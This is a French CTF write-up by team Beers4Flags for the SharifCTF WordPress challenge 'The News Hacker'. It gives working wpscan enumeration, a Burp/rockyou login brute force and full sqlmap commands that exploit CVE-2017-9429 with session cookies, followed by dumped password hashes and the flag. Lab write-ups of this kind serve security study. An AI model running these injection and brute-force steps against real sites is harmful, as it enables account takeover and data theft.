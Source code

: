 **Web - The News Hacker  - 150pts**

Enoncé :
```
Only admin can see the flag :)
ctf.sharif.edu:8082
Hint: Weak password!
```

**Résolution :**

Le site est un wordpress :

![Alt](img/wordpress.png "Accueil")

On commence par le scanner pour identifier les différentes versions des plugins et lister les utilisateurs.

```BASH
wpscan --url http://ctf.sharif.edu:8082 --enumerate u
```

**Résultat :**

Deux utilisateurs sont présent sur le système :
   +----+-----------+-----------+
    | Id | Login     | Name      |
    +----+-----------+-----------+
    | 1  | admin     | admin     |
    | 2  | organizer | organizer |
    +----+-----------+-----------+

 ```
Un plugin est vulnérable à une injection SQL authentifié :

```
[!] Title: Event List <= 0.7.8 - Authenticated SQL Injection
    Reference: https://wpvulndb.com/vulnerabilities/8846
    Reference: https://dtsa.eu/cve-2017-9429-event-list-version-v-0-7-8-blind-based-sql-injection-sqli/
    Reference: https://plugins.trac.wordpress.org/changeset/1676971/event-list
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-9429
[i] Fixed in: 0.7.9

```


On bruteforce l'accès à l'administration du wordpress via la page **wp-login.php** avec burp et le dictionnaire rockyou


![Alt](img/burp.png "Bruteforce")


On trouve le couple d'identifiant :  organizer / password

On se connecte grâce aux identitifants 

![Alt](img/admin.png "Admin page")

Nous avons maintenant un cookie de session valide pour exploiter l'injection sql en mode authentifié : [CVE-2017-9429](https://dtsa.eu/cve-2017-9429-event-list-version-v-0-7-8-blind-based-sql-injection-sqli/)

Avec SQLMAP on injecte sur le paramètre **id**:
```BASH
sqlmap -u "http://ctf.sharif.edu:8082/wp-admin/admin.php?page=el_admin_main&action=edit&id=1  AND SLEEP(2)" --cookie="wordpress_0a035233da76ab47b383406952116587=organizer%7C1517739757%7CBvi9HeOuVUVjGtcTlFxeK0w6ikHvbjQ63cH4No4fKvt%7Cc2da9849c840a893d0cf33bf38bd75a9a7af23367151b471e912be06963bb21b; csrftoken=gMHcyH05di9Nbae4Nob9iz8jXKN7twztLs2V0Zl55nC4mDQJEoEBxFf1ClV1cX5O; sessionid=h7xiiydxhmcqd3u9vij4p1c75fwaiis1; wordpress_test_cookie=WP+Cookie+check; wordpress_logged_in_0a035233da76ab47b383406952116587=organizer%7C1517739757%7CBvi9HeOuVUVjGtcTlFxeK0w6ikHvbjQ63cH4No4fKvt%7Cabf11d732008c12922d0e7101ddcf906203f47813221521c84eb51bdf1180e64; wp-settings-2=libraryContent%3Dupload%26mfold%3Do%26editor%3Dtinymce%26uploader%3D1; wp-settings-time-2=1517567162" -p id
```

L'injection fonctionne, il ne reste plus qu'à afficher le contenu de la base de données désirée.

La première idée à été de dumper le mot de passe du compte : admin

```BASH
sqlmap -u "http://ctf.sharif.edu:8082/wp-admin/admin.php?page=el_admin_main&action=edit&id=1  AND SLEEP(2)" --cookie="wordpress_0a035233da76ab47b383406952116587=organizer%7C1517739757%7CBvi9HeOuVUVjGtcTlFxeK0w6ikHvbjQ63cH4No4fKvt%7Cc2da9849c840a893d0cf33bf38bd75a9a7af23367151b471e912be06963bb21b; csrftoken=gMHcyH05di9Nbae4Nob9iz8jXKN7twztLs2V0Zl55nC4mDQJEoEBxFf1ClV1cX5O; sessionid=h7xiiydxhmcqd3u9vij4p1c75fwaiis1; wordpress_test_cookie=WP+Cookie+check; wordpress_logged_in_0a035233da76ab47b383406952116587=organizer%7C1517739757%7CBvi9HeOuVUVjGtcTlFxeK0w6ikHvbjQ63cH4No4fKvt%7Cabf11d732008c12922d0e7101ddcf906203f47813221521c84eb51bdf1180e64; wp-settings-2=libraryContent%3Dupload%26mfold%3Do%26editor%3Dtinymce%26uploader%3D1; wp-settings-time-2=1517567162" -p id -D wp_blog -T wp_users --dump


Database: wp_blog
Table: wp_users
[2 entries]
+----+----------+------------------------------------+------------+-------------------------+-------------+--------------+---------------+---------------------+-----------------------------------------------+
| ID | user_url | user_pass                          | user_login | user_email              | user_status | display_name | user_nicename | user_registered     | user_activation_key                           |
+----+----------+------------------------------------+------------+-------------------------+-------------+--------------+---------------+---------------------+-----------------------------------------------+
| 1  | <blank>  | $P$BlswVddCYusVLzt8kbJ2IgtYAzjfFV. | admin      | info@besthackers.com    | 0           | admin        | admin         | 2018-01-01 07:38:36 | <blank>                                       |
| 2  | <blank>  | $P$ByyRxRMg.AIWvtbM1Jf3A0Obt/oEJy1 | organizer  | organizer@sharifctf.com | 0           | organizer    | organizer     | 2018-01-08 04:16:36 | 1515384996:$P$B8XHeMJAc23PiQ.TKcINv40EoS4jUV1 |
+----+----------+------------------------------------+------------+-------------------------+-------------+--------------+---------------+--------------------

```
Après une heure de bruteforce offline avec hashcat le mot de passe n'a pas été trouvé.

On dump alors tous les posts du wordpress en espérant en trouver un de caché.

```BASH
sqlmap -u "http://ctf.sharif.edu:8082/wp-admin/admin.php?page=el_admin_main&action=edit&id=1  AND SLEEP(2)" --cookie="wordpress_0a035233da76ab47b383406952116587=organizer%7C1517745041%7CaFwFCjTZRnFNkPPS2tgadihYPOnZegBYj4uGZLE1d4h%7C3fc24876b5521be0e1075ce103b2f76d4d044237e9f5682d978e7a281e313f34; csrftoken=gMHcyH05di9Nbae4Nob9iz8jXKN7twztLs2V0Zl55nC4mDQJEoEBxFf1ClV1cX5O; sessionid=h7xiiydxhmcqd3u9vij4p1c75fwaiis1; wordpress_test_cookie=WP+Cookie+check; wordpress_logged_in_0a035233da76ab47b383406952116587=organizer%7C1517745041%7CaFwFCjTZRnFNkPPS2tgadihYPOnZegBYj4uGZLE1d4h%7C8d85976e7e3fe45466237298692e0a71ef640c92b24fc99e1f7c6b2c771bc251; wp-settings-2=libraryContent%3Dbrowse%26mfold%3Do%26editor%3Dhtml%26uploader%3D1; wp-settings-time-2=1517572245; XSRF-TOKEN=eyJpdiI6ImpzTE9IT01LWEZhMVdIY3A0NURKTVE9PSIsInZhbHVlIjoiRG1qZVkyTTkxU2VsMlJJNzFFbiswbkVEU2dPZzYzNEZidHIwVkE5QnVQZnJ3XC9pcHpIUnJDOE9ZTCtFMUhJWm52WnBTM2lUdTNqRGlNNXhqSk9IRHVnPT0iLCJtYWMiOiIyM2U0M2I2NGUyYThlODZkMjE5ZGM0MTFjNWM5NzczNmVkOGE4ZjUyNjBiMjg5MWY1ZjNhYTczMzFlOTc3N2IxIn0%3D; laravel_session=eyJpdiI6IlRodmZ3YUc5K2pHSzJkUmtBSWwzMUE9PSIsInZhbHVlIjoibkhXXC9mQ2RRMWFkWkpEc0FYdk5qVHhZVlZZSGpaNFdyWU1RMStwSzdHU0U3RkJua3RMM1l4bHFJbXB3Zzd5NW44UUJ4U3E0YnRMcWlJb0Rzd21oYmlBPT0iLCJtYWMiOiI3ZWVlMGYyYWIyMDgxOWFkYjZjN2Y0YzNhZDAyZTdhNDMzMWM1M2EzMTE1ZjRhN2M0YjM2OWM0ZDU0YzI5MGQ5In0%3" -p id -D wp_blog -T wp_posts --dump



[13:22:35] [INFO] retrieved: "25","0","open","http://10.0.3.189/?p=25","0","open","","1","Flag is SharifCTF{e7134abea7438e937b87608eab0d979c}","","2018-01-08 04:14:21","2018-01-08 04:14:21","","","2018-01-08 10:5...
```



By team Beers4Flags


```
 ________
|        |
|  #BFF  |
|________|
   _.._,_|,_
  (      |   )
   ]~,"-.-~~[
 .=] Beers ([
 | ])  4   ([
 '=]) Flags [
   |:: '    |
    ~~----~~
```
